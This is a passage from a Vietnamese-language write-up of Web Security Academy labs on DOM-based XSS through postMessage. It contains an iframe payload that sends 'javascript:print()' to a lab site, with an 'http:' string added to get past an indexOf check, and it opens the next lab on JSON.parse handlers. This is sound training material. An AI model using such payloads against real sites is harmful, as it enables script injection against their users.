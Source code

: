 Do đó ta có thể dùng protocol `javascript` để thực hiện `print()`, và gán `http:` vào variable `a` để bypass phần check `indexOf()`

```html
<iframe src="https://0a2e00cd03e15c7dc01fb9e600390023.web-security-academy.net/"
    onload="this.contentWindow.postMessage('javascript:print(); a=\'http:\';','*')">
</iframe>
```

Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab

![Untitled](wu_media/Untitled%203.png)

---

### ****DOM XSS using web messages and JSON.parse****

Website sẽ parse `JSON` từ `event message`. Có thể thấy khi `JSON` có `type: load-channel`, script sẽ để đổi `src` của `iframe` thành `url` ta cung cấp trong `JSON`.
